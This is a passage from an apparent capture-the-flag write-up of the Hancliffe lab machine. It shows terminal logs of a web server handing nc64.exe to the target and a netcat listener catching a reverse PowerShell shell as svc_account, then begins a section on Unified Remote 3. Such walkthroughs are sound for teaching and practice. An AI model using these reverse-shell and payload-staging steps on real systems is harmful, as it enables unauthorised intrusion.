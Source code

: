 [![07_nuxeo_burp_rev](/img/hancliff/07_nuxeo_burp_rev.png)](/img/hancliff/07_nuxeo_burp_rev.png)

We get a hit on our web server for the `nc64.exe` binary and almost instantly after a reverse shell on our listener as `svc_account`

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.247 - - [10/Oct/2021 19:49:06] "GET /nc64.exe HTTP/1.1" 200 -
10.129.95.247 - - [10/Oct/2021 19:50:10] "GET /nc64.exe HTTP/1.1" 200 -
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.247.
Ncat: Connection from 10.129.95.247:49762.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Nuxeo > whoami
hancliffe\svc_account
```

## Unified Remote 3

Looking for unusual installed programs we find `Unified Remote 3`.
